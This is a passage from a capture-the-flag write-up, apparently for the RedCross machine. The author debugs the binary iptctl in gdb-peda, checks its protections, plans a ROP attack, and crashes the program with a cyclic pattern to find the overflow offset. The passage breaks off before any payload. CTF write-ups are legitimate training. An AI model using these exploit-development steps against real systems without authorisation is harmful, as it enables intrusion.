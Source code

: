```

root@kali# gdb -q ./iptctl
Reading symbols from ./iptctl...(no debugging symbols found)...done.
gdb-peda$ 

```

Then I can run `checksec`:

```

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

NX enabled means I can’t just drop shellcode on the stack and jump to it. But with no other protections, I can do a return oriented programming (ROP) attack.

#### Find Offset

Because I run `gdb` with [peda](https://github.com/longld/peda), I have access to `pattern_create`:

```

gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'

```

Now I’ll start the program with the `-i` for interactive. When prompted for action, I’ll enter “allow” and the pattern. I need the allow to pass the valid action check. Then, I’ll enter a dummy IP for IP:

```

gdb-peda$ run -i
Starting program: /media/sf_CTFs/hackthebox/redcross-10.10.10.113/iptctl -i
Entering interactive mode
Action(allow|restrict|show): allowAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
IP address: 1.1.1.1

```

On hitting enter, I’m taken to:

```

Program received signal SIGSEGV, Segmentation fault.

```

The status looks like:
